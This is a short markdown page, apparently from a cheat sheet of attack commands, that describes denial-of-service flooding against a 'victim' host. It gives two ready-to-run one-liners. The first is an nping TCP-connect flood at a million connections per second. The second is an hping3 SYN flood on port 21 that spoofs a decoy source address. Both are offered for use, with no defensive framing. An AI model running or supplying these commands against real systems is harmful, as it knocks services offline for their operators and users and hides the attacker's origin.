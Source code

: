 ```yaml
---
layout: post
title:  "DoS"
categories: scan deny
summary: Take lot of TCP connections to target and create Denial-of-service (DoS)
---
```


{% include instructions.md %}

# {{page.title}}
Take lot of TCP connections to target

{% highlight shell %}
# nping --tcp-connect --rate=1000000 --count 1000000 [victim ip address or domain]
{% endhighlight %}
Send much as possible TCP connections to target to port 21 and change source address to a decoy IP address. Flood by sending 10000 packets using SYN flag and data size is 120.

{% highlight shell %}
$ sudo hping3 -V -c 10000 -d 120 -S -p 21 --flood [victim ip address] -a [decoy ip address]
{% endhighlight %}

